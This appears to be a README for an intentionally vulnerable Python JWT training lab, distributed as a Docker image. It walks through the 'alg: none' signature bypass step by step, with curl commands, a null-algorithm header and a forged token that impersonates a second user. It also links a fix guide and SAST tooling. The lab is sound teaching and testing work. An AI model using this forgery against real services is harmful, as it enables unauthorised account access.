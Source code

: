 # Python-JWT-Hs256-None

JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object. This information can be verified and trusted because it is digitally signed. JWTs can be signed using a secret (with the HMAC algorithm) or a public/private key pair using RSA.

https://jwt.io/

## Owasp

https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.md


## SAST Tools : 

Find With SAST Tools : SonarQube Develpoer Plan


![Getting Started](22.png)



Find With SAST Tools : My Yml Script


![Getting Started](21.png)



## Setup

install from my dockerhub : https://hub.docker.com/r/mhnamadi/jwt-none


    docker run -ti -p 8008:5000 mhnamadi/jwt-none


## Payload 

* `curl --header "Content-Type: application/json" --request POST --data '{"username":"admin","password":"admin"}' http://localhost:5000/auth`


* `curl -i -H "Accept: application/json" -H "Authorization: JWT " http://localhost:5000/protected`

* `Null cipher header: eyJ0eXAiOiJKV1QiLCAiYWxnIjoiTk9ORSJ9.`

## Attack

1. Frist you should find to a valid JWT token. you can do this by run following command :
```
curl --header "Content-Type: application/json" --request POST --data '{"username":"user","password":"user"}' http://localhost:8008/auth
```

2. In response you will get something like this :
```
{
  "access_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDQ4NTQyODUsImlhdCI6MTY0NDg1Mzk4NSwibmJmIjoxNjQ0ODUzOTg1LCJpZGVudGl0eSI6MX0.mBCLVmIjOQT4a596r7sHvKgPm60ZgZjXBzSGZPKLRp0"
  }
```

3. Now to check JWT token simply run following command . You shouldn't get 401 in response
```
 curl -i -H "Accept: application/json" -H "Authorization: <access_token> " http://localhost:8008/protected
```

4. We want gain access  to the application as the second user. to this this first of all we need to decode the body of JWT to see which parameters are peresent. we can do this with any base64 decoder. you can do this with python or simply run this command:
```
echo eyJleHAiOjE2NDQ4NTQyODUsImlhdCI6MTY0NDg1Mzk4NSwibmJmIjoxNjQ0ODUzOTg1LCJpZGVudGl0eSI6MX0= | base64 --decode
```

5. In the decode body change `"identity": 1` to `"identity" : 2` and encode it to base64 again
6. Now we must change algorithm to none . to do this decode the header too and change value of algorithm to none then encode it to base64.
7. Remove signiture part, but remember keep the trailing `.`. The final token should be something like this:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0K.eyJleHAiOjE2NDQ4NTQyODUsImlhdCI6MTY0NDg1Mzk4NSwibmJmIjoxNjQ0ODUzOTg1LCJpZGVudGl0eSI6Mn0K.
```

8. Now send request in the step 3 but use your JWT token from step 7 . Congrats, you are user2.

![Getting Started](12.png)

## Fix Guide :  

https://curity.io/resources/learn/jwt-best-practices/


## Contributing : 
 
We encourage you to contribute to Project


## Twitter Contributor :

   https://twitter.com/siavashvafshar
   
   
## Relevant reports and write-ups

   1. https://infosecwriteups.com/idor-in-jwt-and-the-shortest-token-you-will-ever-see-uid-1234567890-4e02377ea03a
   2. https://blog.pentesteracademy.com/hacking-jwt-tokens-the-none-algorithm-67c14bb15771
